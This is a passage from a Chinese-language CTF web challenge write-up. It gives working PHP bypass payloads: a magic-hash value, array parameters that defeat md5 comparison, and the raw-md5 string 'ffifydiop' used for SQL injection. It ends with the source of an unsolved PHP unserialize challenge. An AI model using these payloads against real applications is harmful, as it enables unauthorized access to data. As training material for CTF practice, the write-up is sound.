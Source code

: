 hash1=0e251288019

- `$_GET['hash2'] === $_GET['hash3'] || md5($_GET['hash2']) !== md5($_GET['hash3'])`

hash1=0e251288019&hash2[]=1&hash3[]=2

数组绕过类型和值的检查。

- `"SELECT * FROM flag WHERE password = '" . md5($_GET["hash4"],true) . "'"`

ffifydiop 经过md5加密后：276f722736c95d99e921722cf9ed621c

hash1=0e251288019&hash2[]=1&hash3[]=2&hash4=ffifydiop

翻译为字符串就是 `'or'66�]��!r,��b`

相当于 SELECT * FROM flag WHERE password = ''or 1

## 4 休息一下吧打工人

- 题目

  ```php
  Play brick games maybe more fun
  <?php
  error_reporting(0);
  
  class dagongren{
      public $a="hello";
  
      function __destruct()
      {   
          if($this->a === 'work'){
              show_source("flag");
              echo "<br>";
          }
          else{
              echo "Good night";
          }
      }
  
      function __wakeup()
      {
          $this->a = "sleep";
      }
  
      function check()
      {
          if($this->a=="work"){
              return TRUE;
          }
          else{
              return FALSE;
          }
      }
  }
  $KEY1 = "D0g3!!!";
  $str1 = $_GET['str1'];
  if (unserialize($str1) === "$KEY1")
  {
      $b = $_GET['str2'];
      $c = unserialize($b);
  }
  else{
      echo "Play brick games maybe more fun"."<br>";
  }
  show_source(__FILE__);
  ?> 
  ```